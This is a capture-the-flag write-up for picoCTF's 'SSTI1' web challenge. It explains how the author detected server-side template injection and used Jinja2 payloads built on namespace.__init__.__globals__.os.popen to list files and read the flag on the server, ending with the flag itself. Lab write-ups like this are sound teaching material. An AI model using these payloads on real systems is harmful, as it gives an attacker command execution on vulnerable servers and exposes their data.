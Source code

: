 ## SSTI1

In this challenge, we are given a website that states "I built a cool website that lets you announce whatever you want!".

Upon writing something in the input box and submitting it, the website displays the text that was entered. This is a classic example of a Server-Side Template Injection (SSTI) vulnerability.

Using the payload `{{7*'7'}}`, the website displays `7777777`. This confirms that the website is using either Jinja2 or Twig as its templating engine.

I found a list of payloads for SSTI [here](https://www.pwny.cc/web-attacks/server-side-template-injection-ssti). There didn't seem to be much input validation or sanitization, as the few payloads I tried all allowed me to execute commands.

I first used `{{ namespace.__init__.__globals__.os.popen('ls').read() }}`, which listed:
```
__pycache__ 
app.py 
flag 
requirements.txt
```

I then used `{{ namespace.__init__.__globals__.os.popen('cat flag').read() }}` to get the flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}`.